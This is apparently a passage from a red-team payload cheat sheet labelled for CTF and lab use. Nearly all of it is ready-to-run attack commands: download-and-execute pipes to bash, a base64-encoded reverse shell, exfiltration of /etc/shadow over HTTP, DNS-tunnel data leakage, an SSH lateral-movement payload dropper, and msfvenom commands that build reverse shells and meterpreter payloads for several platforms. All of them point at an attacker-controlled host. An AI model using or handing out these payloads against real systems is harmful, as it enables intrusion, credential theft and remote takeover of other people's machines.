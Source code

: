 ```bash
curl http://10.10.14.2/s1.sh | bash
wget -qO- http://10.10.14.2/s2.sh | bash
```

#### 🔹 Reverse Shell via DNS Tunneling (CTF trick)

```bash
dig @10.10.14.2 `whoami`.labdomain.com
```

#### 🔹 Exfil via HTTP + Base64

```bash
cat /etc/shadow | base64 | curl -d @- http://10.10.14.2/exfil
```

#### 🔹 Lateral Payload Dropper

```bash
scp payload.sh user@10.10.10.5:/tmp/
ssh user@10.10.10.5 "bash /tmp/payload.sh"
```

#### 🔹 Staged Reverse Shell (Base64 in Memory)

```bash
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzQ0NDQgMD4mMQ==" | base64 -d | bash
```

***

### VI. 🧠 Mixed-Language Payload Chains (for Red Team Sim Labs)

| Stage                 | Language          | Example                          |
| --------------------- | ----------------- | -------------------------------- |
| **Initial Access**    | Bash              | Download & execute reverse shell |
| **Execution**         | Python            | Memory shell loader              |
| **Persistence**       | PowerShell        | Registry-based re-launcher       |
| **Evasion**           | PHP               | Encoded eval webshell            |
| **Command & Control** | PowerShell/Python | Encrypted HTTPS beacon           |

***

### VII. 🧰 msfvenom Payload Reference

| Platform            | Example Command                                                                                  |
| ------------------- | ------------------------------------------------------------------------------------------------ |
| Linux Reverse Shell | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f elf > shell.elf`         |
| Windows EXE         | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe` |
| PHP                 | `msfvenom -p php/reverse_php LHOST=10.10.14.2 LPORT=4444 -f raw > shell.php`                     |
| ASPX                | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f aspx > shell.aspx`   |
| Python              | `msfvenom -p cmd/unix/reverse_python LHOST=10.10.14.2 LPORT=4444 -f raw > shell.py`              |

